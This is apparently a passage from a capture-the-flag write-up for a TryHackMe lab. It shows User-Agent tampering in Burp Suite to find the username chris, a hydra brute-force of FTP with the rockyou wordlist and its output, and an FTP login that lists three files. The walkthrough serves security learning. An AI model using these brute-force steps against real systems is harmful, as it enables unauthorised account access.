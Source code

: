 - Looks like we cant access site but it says to set codename to user agent.
- We will use burpsuite to intercept The request and change User-Agent to R.
![image](https://github.com/Zero1s3c/TryhackmeCTF/assets/122147724/2df10b20-4ffc-4aa4-9573-a6493d01cb9f)



- After Changing User agent to R

![image](https://github.com/Zero1s3c/TryhackmeCTF/assets/122147724/48625efa-bcc7-444f-a6fc-b3b865d96585)



- Looks like there may be more agents codename available , Lets Enumrate

- C

  
![image](https://github.com/Zero1s3c/TryhackmeCTF/assets/122147724/f776bbf3-70db-4afa-a4bd-cccb14ad1e35)


- we found the username chris.


# Bruteforce

```shell
┌─[noxi0us@parrot]─[~/Desktop/tools/downloads]
└──╼ $hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.217.180 ftpHydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-28 17:03:18
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.217.180:21/
[STATUS] 245.00 tries/min, 245 tries in 00:01h, 14344154 to do in 975:48h, 16 active
[21][ftp] host: 10.10.217.180   login: chris   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-28 17:04:26

```

## ftp login 
- After ftp login using above password we get three files

```shell
─[noxi0us@parrot]─[~/Desktop/tools/downloads]
└──╼ $ftp 10.10.217.180
Connected to 10.10.217.180.
220 (vsFTPd 3.0.3)
Name (10.10.217.180:noxi0us): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.

```
- lets get information from these file
